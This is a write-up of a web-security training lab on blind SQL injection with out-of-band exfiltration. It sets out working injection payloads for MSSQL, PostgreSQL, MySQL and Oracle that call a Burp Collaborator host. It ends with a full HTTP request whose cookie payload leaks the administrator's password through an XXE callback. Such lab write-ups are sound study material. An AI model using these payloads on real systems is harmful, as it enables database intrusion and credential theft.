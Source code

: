 # Lab: Blind SQL injection with out-of-band data exfiltration
## Description

7z7fejdhsi0zvc9m8gvf36ummds3gs.burpcollaborator.net

1) Identify the out-of-band SQLi...

I first tried the previous attempt:
`'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % yyrcn SYSTEM "http://aaou2o2c1kd18cnsrylgpvk1dsjmia8ycm59vxk.burpcollab'||'orator.net/">%yyrcn;]>'),'/l') from dual)||'` which didn't work, so its most likely not Oracle this time.

I then started to work my way through the other DBMS.


## MSSQL
---
```
'foo'+'bar'  <-- how to concat
'+(PAYLOAD)+' <-- the structure
```
The payload
```
exec master..xp_dirtree '//7z7fejdhsi0zvc9m8gvf36ummds3gs.burpcollaborator.net/a'
```
The combo
```
'+(exec master..xp_dirtree '//7z7fejdhsi0zvc9m8gvf36ummds3gs.burpcollaborator.net/a')+'
```
---


## PostgreSQL
How to concat
```
'||(PAYLOAD)||'
```
The payload
```
copy (SELECT '') to program 'nslookup 7z7fejdhsi0zvc9m8gvf36ummds3gs.burpcollaborator.net'
```
The combo
```
'||(copy (SELECT '') to program 'nslookup 7z7fejdhsi0zvc9m8gvf36ummds3gs.burpcollaborator.net')||'
```


## MySQL
---
How to concat 
```
'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')

' '(PAYLOAD)' '
' CONCAT((PAYLOAD),'bar') '
```
The payload
```
LOAD_FILE('\\\\7z7fejdhsi0zvc9m8gvf36ummds3gs.burpcollaborator.net\\a')

SELECT * INTO OUTFILE '\\\\7z7fejdhsi0zvc9m8gvf36ummds3gs.burpcollaborator.net\a'
```
The combos
```
BAH; this became too complicated :)
```
---

Launched the Burp Scanner. That resulted in the following SQLi:
```
'%7c%7c(select%20extractvalue(xmltype('%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20[%20%3c!ENTITY%20%25%20ugisq%20SYSTEM%20%22http%3a%2f%2fl0m5szsnrv3cynd3h9brf6ac339x8lz93xwkm8b.burpcollab'%7c%7c'orator.net%2f%22%3e%25ugisq%3b]%3e')%2c'%2fl')%20from%20dual)%7c%7c'
```
Decoded

`'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % ugisq SYSTEM "http://l0m5szsnrv3cynd3h9brf6ac339x8lz93xwkm8b.burpcollab'||'orator.net/">%ugisq;]>'),'/l') from dual)||'`

Very similar to the previous exercise, but with one important difference. The use of multiple concatenations. Why? Turns out, not apparent reason. We can simply remove it:

`'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % ugisq SYSTEM "http://l0m5szsnrv3cynd3h9brf6ac339x8lz93xwkm8b.burpcollaborator.net/">%ugisq;]>'),'/l') from dual)||'`

Now we need to extract some data. The select query `SELECT password FROM users WHERE username = 'administrator'` will be added into the existing payload and BINGO!!


## Solution
`'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % ugisq SYSTEM "http://sgc0v4u293hkcxq7p1c0krb73y9pxe.burpcollaborator.net/'||(SELECT password FROM users WHERE username = 'administrator')||'">%ugisq;]>'),'/l') from dual)||'`


```
GET /filter?category=Pets HTTP/1.1
Host: ac1b1f921e84ce2ec0a80908008300f8.web-security-academy.net
Cookie: TrackingId=3M9AeHSAXUUhosC3'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % ugisq SYSTEM "http://sgc0v4u293hkcxq7p1c0krb73y9pxe.burpcollaborator.net/'||(SELECT password FROM users WHERE username = 'administrator')||'">%ugisq;]>'),'/l') from dual)||'; session=O3OQvgXgTjwC9uAvlIWMpIHgT4vrRV7f
```

